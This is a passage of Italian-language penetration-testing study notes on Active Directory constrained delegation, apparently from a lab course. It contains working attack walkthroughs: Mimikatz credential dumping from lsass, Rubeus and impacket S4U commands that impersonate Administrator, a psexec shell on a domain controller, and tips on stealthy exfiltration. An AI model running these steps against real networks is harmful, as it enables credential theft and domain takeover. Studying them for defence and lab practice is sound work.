4. DC restituisce a WEBSRV un TGS per SQL/DBSRV
   ma con l'identità dell'utente dentro

5. WEBSRV accede a SQL/DBSRV AS the user
```


Con constrained delegation, il DC controlla la lista ```msds-allowedtodelegateto``` di Service A prima di rilasciare il TGS. Se Service A ha nella lista solo cifs/serviceB, il DC rilascia TGS solo per quel servizio e rifiuta qualsiasi altra richiesta.
```
Service A chiede TGS per serviceB → DC controlla lista → serviceB c'è → OK
Service A chiede TGS per serviceC → DC controlla lista → serviceC NON c'è → RIFIUTATO
```

### La differenza pratica con unconstrained
- In unconstrained delegation il DC non controlla nulla — rilascia il TGT completo al servizio e da quel momento il servizio fa quello che vuole. È il servizio stesso che poi chiede i TGS che preferisce, senza che il DC possa limitarlo.
- In constrained delegation invece il DC mantiene il controllo — è lui che rilascia i TGS uno per uno, verificando ogni volta se quel servizio ha il permesso di delegare verso la destinazione richiesta. Il servizio non ha mai il TGT dell'utente, ha solo i TGS specifici che il DC ha deciso di dargli.
```
Unconstrained:  DC dà TGT a Service A → Service A fa da solo tutto
Constrained:    Service A chiede TGS al DC ogni volta → DC decide se concederlo
```

### S4U2Proxy & S4U2Self
S4U2Proxy (Service for User to Proxy) e S4U2Self (Service for User to Self) sono due estensioni di Active Directory che consentono la delega.

#### S4U2Proxy
È semplicemente il meccanismo di delegation:
```
Utente → TGS → WEBSRV
WEBSRV → TGS request (con TGS utente dentro) → DC
DC → TGS per DBSRV as the user → WEBSRV
```
Richiede che il servizio abbia già un TGS dell'utente da embeddare nella richiesta.

#### S4U2Self — Il problema che risolve
Cosa succede se l'utente si autentica a WEBSRV tramite NTLM invece di Kerberos?
```
Utente → autentica con NTLM → WEBSRV
WEBSRV vuole accedere a DBSRV as the user
❌ Ma non ha nessun TGS dell'utente da embeddare!
```
S4U2Self risolve questo problema!

##### Come funziona S4U2Self
```
1. Utente si autentica a WEBSRV via NTLM
         ↓
2. WEBSRV chiede al DC un TGS per SE STESSO
   on behalf of quell'utente (senza che l'utente lo sappia)
   "Dammi un TGS per WEBSRV come se fosse jenna.smith"
         ↓
3. DC restituisce un TGS forwardable per WEBSRV
   con l'identità di jenna.smith dentro
         ↓
4. Ora WEBSRV ha un TGS dell'utente e può fare S4U2Proxy
         ↓
5. WEBSRV → TGS request (con quel TGS dentro) → DC
         ↓
6. DC → TGS per DBSRV as jenna.smith
```

S4U2Self permette al servizio di ottenere un TGS per un utente arbitrario, anche senza che quell'utente si sia mai autenticato al servizio.
Questo è il motivo delle due opzioni nella Constrained Delegation:



Se un attaccante compromette un account di servizio con "Use any authentication protocol":



Può usare S4U2Self per generare un TGS come qualsiasi utente del dominio (anche Domain Admin), senza che quell'utente abbia mai toccato quel servizio, e poi S4U2Proxy per accedere a risorse protette as Domain Admin.

### L'unica eccezione — protocol transition


C'è una variante chiamata **protocol transition (TrustedToAuthForDelegation)** dove Service A può usare S4U2Self per impersonare qualsiasi utente verso se stesso, anche se quell'utente non si è mai autenticato con Kerberos. Ma anche in questo caso può delegare solo verso i servizi nella sua lista — non verso serviceC.
Dal punto di vista offensivo quindi con constrained delegation sei limitato — puoi impersonare chiunque ma solo verso quei servizi specifici. L'obiettivo diventa trovare un servizio nella lista che ti dia accesso utile, tipo **cifs/dc.corp.local** o **ldap/dc.corp.local** — che se presenti ti danno di fatto accesso da DA.

#### TrustedToAuthForDelegation (Protocol Transition)
```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, trustedtoauthfordelegation
samaccountname            : svc-web
msds-allowedtodelegateto  : {cifs/FILE-SRV.corp.local, 
                             cifs/FILE-SRV}
trustedtoauthfordelegation: True
```
Il campo **trustedtoauthfordelegation: True** significa che questo account può usare **S4U2Self** — cioè può creare una prova di autenticazione per qualsiasi utente dal nulla, senza che quell'utente si sia mai autenticato. È la flag più pericolosa perché combina S4U2Self + S4U2Proxy.

#### Constrained delegation senza protocol transition
```
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto, trustedtoauthfordelegation
samaccountname            : svc-sql
msds-allowedtodelegateto  : {MSSQLSvc/DB-SRV.corp.local,
                             MSSQLSvc/DB-SRV}
trustedtoauthfordelegation: False
```
Il campo **trustedtoauthfordelegation: False** significa che questo account **NON** può usare **S4U2Self** — non può creare ticket per utenti arbitrari. **Può delegare solo se l'utente si è già autenticato a lui con Kerberos e gli ha passato un TGS**. Molto più limitato dal punto di vista offensivo.


> Con True sei completamente libero — impersoni Administrator. Con False devi aspettare che un utente interessante si autentichi al servizio e catturarne il TGS — molto più situazionale.

#### Se trustedtoauthfordelegation: False, io ho compromesso serviceA, allora potrò chiedere un TGS solo per mario in serviceB?
Con **TrustedToAuthForDelegation: False** non puoi usare S4U2Self, quindi **non puoi creare una prova di autenticazione dal nulla**. Puoi usare S4U2Proxy solo se hai già un TGS di Mario verso Service A — cioè Mario si deve essere autenticato a Service A con Kerberos e quel TGS deve esistere da qualche parte.

##### Il flusso concreto
Mario si autentica normalmente a Service A durante il suo lavoro quotidiano. Quel TGS finisce in memoria su Service A. Tu hai compromesso Service A, quindi puoi rubarlo:
```
# Cerchi TGS in memoria su Service A
Rubeus.exe dump /service:svc-web /nowrap
# Trovi il TGS di Mario verso svc-web
```

Ora hai il TGS di Mario verso Service A — lo usi come input per S4U2Proxy:
```
# Usi il TGS di Mario per chiedere un TGS verso Service B
Rubeus.exe s4u /ticket:<TGS-mario-verso-serviceA> /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

Il DC controlla due cose — il TGS di input è valido e appartiene a Mario, e Service A ha cifs/FILE-SRV nella lista msds-allowedtodelegateto. Se entrambe ok, rilascia il TGS per Mario verso FILE-SRV.

#### La differenza pratica rispetto a TrustedToAuthForDelegation: True


> Con False sei fondamentalmente in attesa — devi sperare che un utente interessante si autentichi a Service A mentre tu hai già compromesso la macchina. Con True invece agisci immediatamente senza dipendere da nessuno.

###  I flag vengono settati sull'account, non sul servizio in sé
Entrambi possono averli — sia account utente che account computer:
```
# Cerca account UTENTE con constrained delegation
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto

# Cerca account COMPUTER con constrained delegation
Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto
```

#### Quando si usa l'uno o l'altro
- Un servizio come IIS o SQL che gira con un account utente dedicato (svc-web, svc-sql) avrà il flag sull'account utente. È una scelta dell'amministratore — usa un account utente perché è più facile da gestire, configurare, e assegnare permessi specifici.
- Un servizio che gira come NETWORK SERVICE o LOCAL SYSTEM usa implicitamente l'account computer della macchina. In quel caso il flag di delegation viene settato sull'account computer WEB-SRV$.
```
IIS gira come svc-web     →  flag su svc-web@corp.local
IIS gira come NETWORK SERVICE  →  flag su WEB-SRV$
```

##### Perché è importante offensivamente
- Se il flag è su svc-web@corp.local (account utente) — devi trovare la password o l'hash di quell'account utente per fare S4U. Lo ottieni con Kerberoasting (se ha uno SPN) o dumpando lsass sulla macchina dove il servizio è in esecuzione.
- Se il flag è su WEB-SRV$ (account computer) — devi essere local admin su quella macchina e dumpare l'hash dell'account computer da lsass. L'hash dell'account computer non è craccabile (password randomica 120 chars), ma non ti serve craccarlo — ti basta usarlo direttamente con Rubeus.
```
# Caso 1: flag su account utente svc-web
# Kerberoasti svc-web e cracchi la password
Rubeus.exe kerberoast /user:svc-web /format:hashcat

# Oppure dumpi lsass sulla macchina
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Trovi hash di svc-web → usi direttamente con s4u

# Caso 2: flag su account computer WEB-SRV$
# Sei local admin su WEB-SRV, dumpi lsass
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Trovi hash di WEB-SRV$ → usi con s4u
Rubeus.exe s4u /user:WEB-SRV$ /aes256:<hash> /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

> In entrambi i casi il punto di partenza è sempre avere l'hash dell'account su cui è configurata la delegation — che sia utente o computer.

- Sia **LOCAL SYSTEM** che **NETWORK SERVICE** quando parlano con la rete usano l'identità di WEB-SRV$ — cioè l'account computer della macchina. **Questo è il motivo per cui se un servizio che gira con questi account ha delegation configurata, il flag è sull'account computer e non su un account utente.**
- Molti admin usano **LOCAL SYSTEM** o **NETWORK SERVICE** per comodità — non devono gestire password, rotazioni, permessi. **E questo è esattamente perché in un pentest trovi spesso delegation configurata su account computer invece che su account utente dedicati.**

### Esempio Constrained Delegation su Windows
Questo attacco può essere eseguito da Windows usando Rubeus. Si compromette DMZ01 e si ottiene accesso remoto a WS01.

#### Enumerazione

PowerView viene usato per identificare computer con constrained delegation:
- DMZ01$ risulta avere il flag TRUSTED_TO_AUTH_FOR_DELEGATION attivo.
```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainComputer -TrustedToAuth

logoncount                    : 35
badpasswordtime               : 12/31/1600 6:00:00 PM
distinguishedname             : CN=DMZ01,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
objectclass                   : {top, person, organizationalPerson, user...}
badpwdcount                   : 0
lastlogontimestamp            : 3/23/2023 10:09:29 AM
objectsid                     : S-1-5-21-1870146311-1183348186-593267556-1118
samaccountname                : DMZ01$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
countrycode                   : 0
cn                            : DMZ01
accountexpires                : NEVER
whenchanged                   : 3/30/2023 2:51:35 PM
instancetype                  : 4
usncreated                    : 12870
objectguid                    : eaebb114-2638-40ec-9617-8715c4d3057a
operatingsystem               : Windows Server 2019 Standard
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 6:00:00 PM
msds-allowedtodelegateto      : {www/WS01.INLANEFREIGHT.LOCAL, www/WS01}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {WSMAN/DMZ01, WSMAN/DMZ01.INLANEFREIGHT.LOCAL, TERMSRV/DMZ01,
                                TERMSRV/DMZ01.INLANEFREIGHT.LOCAL...}
lastlogon                     : 4/1/2023 10:02:15 AM
iscriticalsystemobject        : False
usnchanged                    : 41084
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated                   : 10/14/2022 12:10:03 PM
primarygroupid                : 515
pwdlastset                    : 3/23/2023 10:20:32 AM
msds-supportedencryptiontypes : 28
name                          : DMZ01
dnshostname                   : DMZ01.INLANEFREIGHT.LOCAL
```

#### WS01: Richiedere un ticket TGS valido
##### Hash della macchina
Possiamo utilizzare Rubeus per richiedere un ticket TGS valido a un utente qualsiasi al fine di accedere al servizio HTTP sull'host WS01. Per eseguire correttamente questo attacco, dovremo ottenere l'hash della password NTLM dell'account macchina DMZ01$. Possiamo ottenerlo utilizzando Mimikatz.

Con Mimikatz si ottiene l’hash NTLM dell’account macchina ```DMZ01$```.
```
PS C:\Tools> .\mimikatz.exe privilege::debug sekurlsa::msv exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::msv

Authentication Id : 0 ; 414620 (00000000:0006539c)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 4/1/2023 7:39:12 AM
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : DMZ01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ff955e93a130f5bb1a6565f32b7dc127
         * SHA1     : f9232403611aa86f51a05c64e1abd86ce4021ff1
<SNIP>
```

Attacco Constrained Delegation
```
PS C:\Tools> .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.inlanefreight.local /altservice:HTTP /user:DMZ01$ /rc4:ff955e93a130f5bb1a6565f32b7dc127 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: ff955e93a130f5bb1a6565f32b7dc127
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\DMZ01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFMDCCBSygAwIBBaEDAgEWooIEMjCCBC5hggQqMIIEJqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggPcMIID2KADAgESoQMC
      <SNIP>


[*] Action: S4U

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2self request for: 'DMZ01$@INLANEFREIGHT.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator@INLANEFREIGHT.LOCAL' to 'DMZ01$@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):

      doIGJDCCBiCgAwIBBaEDAgEWooIFEDCCBQxhggUIMIIFBKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiEzARoAMCAQGhCjAIGwZTUUwwMSSjggTPMIIEy6ADAgESoQMCAQGiggS9BIIEuY/s7XKb3zZMjzGB
      <SNIP>

[*] Impersonating user 'Administrator' to target SPN 'www/WS01.inlanefreight.local'
[*]   Final ticket will be for the alternate service 'http'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2proxy request for service: 'www/WS01.inlanefreight.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'http'
[*] base64(ticket.kirbi) for SPN 'http/WS01.inlanefreight.local':

      doIG/jCCBvqgAwIBBaEDAgEWooIF4DCCBdxhggXYMIIF1KADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKzApoAMCAQKhIjAgGwRodHRwGxhXUzAxLmlubGFuZWZyZWlnaHQubG9jYWyjggWHMIIFg6ADAgES
      <SNIP>
```

Innanzitutto, Rubeus richiede un TGT per consentirci di accedere al contesto DMZ01$. Quindi esegue una richiesta S4U2Self per ottenere un ticket TGS come Amministratore.

```
[*] Ottenuto un TGS per ‘Administrator@INLANEFREIGHT.LOCAL’ verso ‘DMZ01$@INLANEFREIGHT.LOCAL’
```
Infine, utilizza questo ticket TGS per eseguire una richiesta S4U2Proxy e aggiornerà l'SPN in modo che corrisponda a quanto richiesto, ovvero il servizio HTTP.

```
[*] Impersonificazione dell'utente ‘Administrator’ per l'SPN di destinazione ‘www/WS01.inlanefreight.local’
[*]   Il ticket finale sarà per il servizio alternativo 'http'
```

#### WS01: Verifica nuovo ticket
Con klist si vede il ticket HTTP per WS01.
```
PS C:\Tools> klist

Current LogonId is 0:0x3f22d97

Cached Tickets: (1)

#0>     Client: Administrator @ INLANEFREIGHT.LOCAL
        Server: http/WS01.inlanefreight.local @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/15/2020 10:37:16 (local)
        End Time:   8/15/2020 20:37:16 (local)
        Renew Time: 8/22/2020 10:37:16 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

#### Accesso Remoto a DMZ01

Infine, il ticket viene usato per ottenere una sessione remota WinRM su WS01:
```
PS C:\Tools> Enter-PSSession ws01.inlanefreight.local

[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami

inlanefreight\administrator
```

### Esempio Constrained Delegation su Linux
Utilizzando il file ```findDelegation.py``` di impacket, è possibile individuare gli account dotati di privilegi di delega.

#### Trovare account con delega
```
Nanan@htb[/htb]$ findDelegation.py INLANEFREIGHT.LOCAL/carole.rose:jasmine

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra
                                                                                                                                                                     
AccountName    AccountType  DelegationType                      DelegationRightsTo                                                                                   
-------------  -----------  ----------------------------------  --------------------------------                                                                     
EXCHG01$       Computer     Constrained                         ldap/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL                
EXCHG01$       Computer     Constrained                         ldap/DC01.INLANEFREIGHT.LOCAL  
callum.dixon   Person       Unconstrained                       N/A                                                                                                  
beth.richards  Person       Constrained w/ Protocol Transition  TERMSRV/DC01.INLANEFREIGHT.LOCAL                                                                     
beth.richards  Person       Constrained w/ Protocol Transition  TERMSRV/DC01                      
DMZ01$         Computer     Constrained w/ Protocol Transition  www/WS01.INLANEFREIGHT.LOCAL     
DMZ01$         Computer     Constrained w/ Protocol Transition  www/WS01                          
SQL01$         Computer     Unconstrained                       N/A
```

Nei risultati si possono notare tre tipi di delega:
- Unconstrained: questo account dispone di una delega senza restrizioni
- Constrained: questo account dispone di una delega con restrizioni senza supporto per la transizione di protocollo
- Constrained w/ Protocol Transition: questo account dispone di una delega con restrizioni e supporto per la transizione di protocollo

Supponiamo di aver già compromesso l'account ```beth.richards```. Questo account ha una delega vincolata con transizione di protocollo impostata e l'unico servizio consentito per la delega è ```TERMSRV/DC01.INLANEFREIGHT.LOCAL```.

Utilizzando lo strumento ```getST.py``` di impacket, possiamo creare un TGS valido da un utente arbitrario per accedere al servizio TERMSRV sull'host DC01.

#### Usare getST
```
Nanan@htb[/htb]$ getST.py -spn TERMSRV/DC01 'INLANEFREIGHT.LOCAL/beth.richards:B3thR!ch@rd$' -impersonate Administrator

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Questo genererà un ticket e lo salverà come ```Administrator.ccache``` nella directory corrente. Una volta ottenuto questo ticket valido per accedere al servizio TERMSRV su DC01 come amministratore, potremo utilizzarlo con ```psexec.py``` di impacket, dopo aver esportato il suo percorso nella variabile d'ambiente ```KRB5CCNAME```. Questo strumento aggiornerà al volo l'SPN in questo TGS per ottenere una shell interattiva. Il flag ```-debug``` è stato aggiunto apposta per permetterti di vedere cosa sta succedendo.

Usare PSExec con il ticket
```
Nanan@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
Nanan@htb[/htb]$ psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[+] Impacket Library Installation Path: /home/plaintext/.local/lib/python3.9/site-packages/impacket
[+] StringBinding ncacn_np:DC01[\pipe\svcctl]
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[*] Requesting shares on DC01.....
[*] Found writable share ADMIN$
[*] Uploading file SmXURDVG.exe
[*] Opening SVCManager on DC01.....
[*] Creating service DBou on DC01.....
[*] Starting service DBou.....
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[!] Press help for extra shell commands
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Leggendo questo output, si nota che Impacket cerca più volte un ticket per uno SPN specifico, ma non riesce a trovarlo.
```
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
```
Continua quindi a cercare altri ticket compatibili con l'account di servizio del bersaglio.
```
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
```
Una volta trovato, aggiorna l'SPN con quello che sta cercando, che in questo caso è CIFS/DC01@INLANEFREIGHT.LOCAL.
```
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
```
psexec.py ripete questa operazione per ottenere una shell interattiva:

```Nanan@htb[/htb]$ psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug
<SNIP>
Microsoft Windows [Versione 10.0.17763.2628]
(c) 2018 Microsoft Corporation. Tutti i diritti riservati.

C:\Windows\system32>whoami
nt authority\system
```


### Esempio Completo Constrained Delegation
- WEB-SRV = Service A — server web IIS, gira con l'account svc-web@corp.local
- FILE-SRV = Service B — file server, gira come FILE-SRV$
- svc-web ha constrained delegation verso cifs/FILE-SRV.corp.local
- Hai compromesso WEB-SRV e sei local admin su quella macchina

L'idea è che IIS quando un utente si logga al portale web, deve accedere al file server per mostrargli i suoi documenti — per questo l'admin ha configurato la delegation.

#### Step 1 — verifichi la delegation
```
Get-DomainUser svc-web -Properties msds-allowedtodelegateto
# Output: cifs/FILE-SRV.corp.local
```

##### Step 2 — dumpi l'hash di svc-web da lsass
Sei local admin su WEB-SRV, quindi puoi leggere lsass:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Output:
# Username: svc-web
# aes256: 4b55a8c0e37d...
# rc4_hmac_nt: 8846f7ea...
```

##### Step 3 — impersoni il DA verso FILE-SRV
Usi S4U2Self + S4U2Proxy per ottenere un TGS valido per Administrator verso cifs/FILE-SRV:
```
Rubeus.exe s4u /user:svc-web /aes256:4b55a8c0e37d... /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

Quello che succede internamente:
```
S4U2Self:  Rubeus chiede al DC un TGS per Administrator verso svc-web
           DC: ok, svc-web ha TrustedToAuthForDelegation → rilascio il TGS

S4U2Proxy: Rubeus presenta quel TGS e chiede al DC un TGS per Administrator verso cifs/FILE-SRV
           DC: controlla msds-allowedtodelegateto di svc-web → cifs/FILE-SRV c'è → rilascio il TGS
```

#### Step 4 — accedi a FILE-SRV come Administrator
Il ticket è già iniettato in memoria (/ptt):
```
# Sei Administrator su FILE-SRV
ls \\FILE-SRV\c$
Enter-PSSession -ComputerName FILE-SRV

# Dumpi lsass di FILE-SRV
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Se un DA ha una sessione attiva → hai il suo hash
```


> Non hai mai visto la password di Administrator. Non hai fatto nessuna preauth come Administrator. Il DC ha rilasciato il TGS perché svc-web aveva il permesso di delegare verso cifs/FILE-SRV — e tu avevi l'hash di svc-web.

### Il problema di partenza
Vuoi un TGS che dica "Administrator è autenticato verso FILE-SRV". Ma per ottenerlo con S4U2Proxy, il DC richiede come input un TGS che provi che Administrator è già autenticato da qualche parte — non puoi chiedere direttamente un TGS per un utente a caso verso un servizio a caso.
In un flusso normale quel TGS esiste già — perché Administrator si è autenticato lui stesso a svc-web. Ma tu sei un attaccante, Administrator non si è mai autenticato a svc-web — quindi quel TGS non esiste. S4U2Self serve esattamente a crearlo dal nulla.

#### S4U2Self — creare la "prova" dal nulla
Rubeus dice al DC: "Administrator si è autenticato a svc-web tramite un metodo non-Kerberos (form web, NTLM, ecc.), dammi un TGS che lo provi".
Il DC risponde: "svc-web ha la flag TrustedToAuthForDelegation — significa che mi fido di lui quando dice che un utente si è autenticato. Ecco il TGS."
- Il TGS che ottieni dice: "Administrator è autenticato verso svc-web". Non è un TGS per accedere a FILE-SRV — è solo una prova di autenticazione verso svc-web stesso. Administrator non sa che esiste, non lo ha chiesto lui.

#### S4U2Proxy — usare quella prova per ottenere il TGS finale
Ora Rubeus presenta al DC quel TGS appena ottenuto e dice: "ho Administrator autenticato su svc-web, ho bisogno di accedere a FILE-SRV per suo conto".
Il DC fa due controlli:
- primo — il TGS di input è valido? Sì, lo ha emesso lui stesso con S4U2Self.
- secondo — svc-web ha il permesso di delegare verso cifs/FILE-SRV? Controlla msds-allowedtodelegateto — sì, c'è. Quindi rilascia il TGS finale.
Il TGS finale dice: "Administrator è autenticato verso cifs/FILE-SRV". Questo è quello che presenti a FILE-SRV per accedere.

#####  Il flusso visivo
```
                    S4U2Self
Rubeus → DC:  "Administrator si è autenticato a svc-web"
DC → Rubeus:  TGS-1 = "Administrator @ svc-web"
                         ↓
                    S4U2Proxy
Rubeus → DC:  TGS-1 + "voglio accedere a cifs/FILE-SRV"
DC → Rubeus:  TGS-2 = "Administrator @ cifs/FILE-SRV"
                         ↓
Rubeus → FILE-SRV:  TGS-2
FILE-SRV:  "benvenuto Administrator"
```

#### Perché il DC accetta S4U2Self senza che Administrator lo sappia
Questa è la parte che sembra strana — il DC crea un TGS per Administrator senza che Administrator lo abbia chiesto. Lo fa perché **TrustedToAuthForDelegation** è esattamente questo: una flag che dice al DC "fidati di svc-web quando ti dice che un utente si è autenticato da lui, anche senza prova Kerberos". È by design, non è una vulnerabilità — **è il meccanismo pensato per servizi che ricevono autenticazioni non-Kerberos come form web o NTLM**.
- Il problema è che se un attaccante compromette svc-web, può invocare S4U2Self per qualsiasi utente del dominio — incluso Administrator — senza che quell'utente abbia mai toccato svc-web.


### Serve necessariamente administrator? s4u2self con un altro utente?
No, non ti serve necessariamente Administrator — puoi usare qualsiasi utente del dominio.

- La scelta dipende da cosa vuoi fare su FILE-SRV. S4U2Self accetta qualsiasi username valido nel dominio — il DC non verifica se quell'utente ha effettivamente accesso a FILE-SRV, rilascia il TGS comunque. Sarà FILE-SRV a decidere cosa può fare quell'utente quando presenta il ticket.

#### Esempi
- Se vuoi accesso completo a FILE-SRV usi Administrator o un Domain Admin — accesso totale a c$, puoi dumpare lsass, muoverti lateralmente.
- Se FILE-SRV ha una share \\FILE-SRV\HR accessibile solo al gruppo HR, usi un utente HR — magari per esfiltrare documenti senza fare rumore con un account privilegiato.
- Se vuoi fare meno rumore possibile, usi un utente normale che ha accesso legittimo a FILE-SRV — l'accesso sembra completamente normale nei log.

```
# Con Administrator — massimo accesso, più rumoroso
Rubeus.exe s4u /user:svc-web /aes256:<hash> /impersonateuser:Administrator /msdsspn:cifs/FILE-SRV.corp.local /ptt

# Con un utente HR — accesso limitato, meno rumoroso
Rubeus.exe s4u /user:svc-web /aes256:<hash> /impersonateuser:hr-user /msdsspn:cifs/FILE-SRV.corp.local /ptt

# Con un utente qualsiasi del dominio
Rubeus.exe s4u /user:svc-web /aes256:<hash> /impersonateuser:mario /msdsspn:cifs/FILE-SRV.corp.local /ptt
```

#### L'unica eccezione — utenti protetti
> Protected Users è un gruppo di sicurezza speciale introdotto in Windows Server 2012 R2 che applica automaticamente una serie di restrizioni agli account che ne fanno parte, senza bisogno di configurare nulla manualmente. (vedi pagina AD.md per saperne di più)

